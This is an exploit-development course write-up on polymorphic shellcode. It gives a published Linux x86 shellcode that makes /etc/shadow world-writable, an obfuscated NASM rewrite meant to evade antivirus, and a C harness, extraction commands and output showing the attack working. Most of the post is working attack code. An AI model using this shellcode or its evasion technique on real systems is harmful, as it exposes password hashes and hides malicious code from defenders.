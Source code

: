 ```yaml
---
title:  "SLAE x86 Assignment 6: Polymorphic Shellcode"
header:
  teaser: "/assets/images/slae32.png"
  teaser_home_page: true
categories:
  - exploit dev
classes: wide
tags:
  - exploit dev
  - slae
---
```


Hey guys! Welcome back! In this post, we will look at assignment 6 of the SLAE x86 certification. Let's dive right in!

## Understanding The Objective ##
So what is Polymorphism? It is a technique used by exploit developers in order to prevent detection by anti-viruses, and make it hard for other security researchers to fingerprint and understand malicious shellcode. It is done by replacing instructions with similar ones, or by adding in arbitrary instructions that do not affect the operation of the shellcode, or both.

As you may imagine though, this will lead to an increase in size of the shellcode. With that being said, let's start with our first shellcode!

### Shellcode 1: [chmod(/etc/shadow, 0666) & exit()](http://shell-storm.org/shellcode/files/shellcode-556.php)
This shellcode will change the permissions of ```/etc/shadow``` to 666 by executing a ```chmod```. Written by ka0x, here is the original shellcode. It currently has a size of 33 bytes:
```c
#include <stdio.h>

/*
    linux/x86 ; chmod(/etc/shadow, 0666) & exit() 33 bytes
    written by ka0x - <ka0x01[alt+64]gmail.com>
    lun sep 21 17:13:25 CEST 2009

    greets: an0de, Piker, xarnuz, NullWave07, Pepelux, JosS, sch3m4, Trancek and others!

*/

int main()
{

    char shellcode[] =
            "\x31\xc0"          // xor eax,eax
            "\x50"              // push eax
            "\x68\x61\x64\x6f\x77"      // push dword 0x776f6461
            "\x68\x2f\x2f\x73\x68"      // push dword 0x68732f2f
            "\x68\x2f\x65\x74\x63"      // push dword 0x6374652f
            "\x89\xe3"          // mov ebx,esp
            "\x66\x68\xb6\x01"      // push word 0x1b6
            "\x59"              // pop ecx
            "\xb0\x0f"          // mov al,0xf
            "\xcd\x80"          // int 0x80
            "\xb0\x01"          // mov al,0x1
            "\xcd\x80";         // int 0x80

    printf("[*] ShellCode size (bytes): %d\n\n", sizeof(shellcode)-1 );
    (*(void(*)()) shellcode)();

    return 0;
}
```
Here is a polymorphic version:
```nasm
; SLAE Assignment 6: Polymorphic chmod(/etc/shadow, 0666) & exit()
; Author:  4p0cryph0n
; Website:  https://4p0cryph0n.github.io

global _start

section .text
_start:

  ;clear registers
  lahf                                        ;load flags
  cmc                                         ;complement the carry flag (random stuff)
  xor ecx, ecx                                ;ecx=0
  mul ecx                                     ;eax and ebx=0

  ;chmod
  add al,0xf                                  ;syscall number for chmod
  push ecx                                    ;push nulls onto the stack
  mov dword [esp-4], 0x776f6461               
  mov dword [esp-8], 0x68732f2f               
  mov dword [esp-12], 0x6374652f              ;/etc/shadow
  sub esp, 12                                 ;stack adjustment
  mov esi, esp                                ;move pointer to args into esi
  xchg ebx, esi                               ;move pointer to args into ebx
  push word 0x16d                             ;push 555
  pop ecx                                     ;pop it into ecx
  add ecx, 0x49                               ;add 111 to ecx, which makes it 666
  int 0x80                                    ;syscall
  xor eax, eax                                

  ;exit
  mov al, 0x1
  int 0x80
```
Alright, let's extract the shellcode:
```
$ objdump -d ./poly1|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x9f\xf5\x31\xc9\xf7\xe1\x04\x0f\x51\xc7\x44\x24\xfc\x61\x64\x6f\x77\xc7\x44\x24\xf8\x2f\x2f\x73\x68\xc7\x44\x24\xf4\x2f\x65\x74\x63\x83\xec\x0c\x89\xe6\x87\xde\x66\x68\x6d\x01\x59\x83\xc1\x49\xcd\x80\x31\xc0\xb0\x01\xcd\x80"

keep in mind, we allow 7 opcodes per line
```
Let's paste this in shellcode.c:
```c
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x9f\xf5\x31\xc9\xf7\xe1\x04\x0f\x51\xc7\x44\x24\xfc\x61\x64\x6f\x77\xc7\x44\x24\xf8\x2f\x2f\x73\x68\xc7\x44\x24\xf4\x2f\x65\x74\x63\x83\xec\x0c\x89\xe6\x87\xde\x66\x68\x6d\x01\x59\x83\xc1\x49\xcd\x80\x31\xc0\xb0\x01\xcd\x80";
main()
{

	printf("Shellcode Length:  %d\n", strlen(code));

	int (*ret)() = (int(*)())code;

	ret();

}
```
Let's compile and run:
```
$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode

before shellcode execution, permissions of /etc/shadow:
$ stat -c %a /etc/shadow                                                  
640

after:
$ sudo ./shellcode
Shellcode Length:  56
$ stat -c %a /etc/shadow    
666
```
The new length is 56 bytes, which is roughly a 70 percent increase in size. 
